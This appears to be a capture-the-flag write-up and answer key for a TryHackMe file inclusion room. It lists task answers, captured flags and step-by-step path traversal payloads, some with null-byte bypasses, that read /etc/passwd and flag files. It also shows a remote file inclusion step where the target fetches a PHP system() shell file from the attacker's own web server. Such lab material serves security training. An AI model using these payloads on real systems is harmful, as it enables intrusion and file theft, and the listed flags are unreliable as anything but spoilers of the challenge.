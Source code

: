 Link to room: https://tryhackme.com/room/fileinc

# Questions:

- Task 1
	- Let's continue to the next section to deploy the attached VM.
		- No answer needed

- Task 2
	- Once you've deployed the VM, please wait a few minutes for the webserver to start, then progress to the next section!
		- No answer needed

- Task 3
	- What function causes path traversal vulnerabilities in PHP?
		- file_get_contents

- Task 4	
	- Give Lab #1 a try to read /etc/passwd. What would the request URI be?
		- /lab1.php?file=/etc/passwd
	- In Lab #2, what is the directory specified in the include function?
		- includes

- Task 5
	- Give Lab #3 a try to read /etc/passwd. What is the request look like?
		- lab3.php?file=..%2F..%2F..%2F..%2Fetc%2Fpasswd%2500
		- Note: This must be done in the uri and not the interface since it will URL encode the null byte
	- Which function is causing the directory traversal in Lab #4?
		- file_get_contents
	- Try out Lab #6 and check what is the directory that has to be in the input field?
		- THM-profile
	- Try out Lab #6 and read **/etc/os-release**. What is the VERSION_ID value? 
		- 12.04
		- URI: THM-profile/../../../../../etc/os-release

- Task 6
	- We showed how to include PHP pages via RFI. Do research on how to get remote command execution (RCE), and answer the question in the challenge section.
		- No answer needed

- Task 7
	- Ready for the challenges?
		- No answer needed

- Task 8
	- Capture Flag1 at /etc/flag1
		- How to get the answer:
			1. Submit anything to form at http://10.10.46.172/challenges/chall1.php ![bad_post](bad_post.PNG)
			2. Try again but intercept request with BurpSuite
			3. Send request to repeater
			4. Change request method to POST
			5. file=../../../../../etc/flag1
		- Flag
			- F1x3d-iNpu7-f0rrn
	- Capture Flag2 at /etc/flag2
		- How to get the answer:
			1. Submit anything to form at http://10.10.46.172/challenges/chall2.php
			2. Try again but intercept request with BurpSuite
			3. Send request to repeater
			4. Change cookie to ../../../../../etc/flag2
			5. Notice there is a php appended to the end ![Append](Append.PNG)
			6. Change cookie to ../../../../../etc/flag2%00
		- Flag
			- c00k13_i5_yuMmy1
	- Capture Flag3 at /etc/flag3
		- How to get the answer:
			1. Submit anything to form at http://10.10.46.172/challenges/chall3.php
			2. Try again but intercept request with BurpSuite
			3. Send request to repeater
			4. Change request method to POST
			5. file=../../../../../etc/flag3
			6. .php added to the end ![POST_0x00](POST_0x00.PNG)
			7. file=../../../../../etc/flag3%00
		- Flag
			- P0st_1s_w0rk1in9
	- Gain RCE in Lab \#Playground /playground.php with RFI to execute the hostname command. What is the output?
		- How to get the answer:
			1. run python3 -m http.server 4444 on local machine
			2. Submit http://xx.xx.xx.xxx:4444/cmd.php
			3. See if there is a request to that file (Should return 404 error)
			4. Make a file named [cmd.php](cmd.php)
			5. Insert `<?PHP system('hostname'); ?>` into file
			6. Resubmit step 2
		- Flag
			- lfi-vm-thm-f8c5b1a78692
	

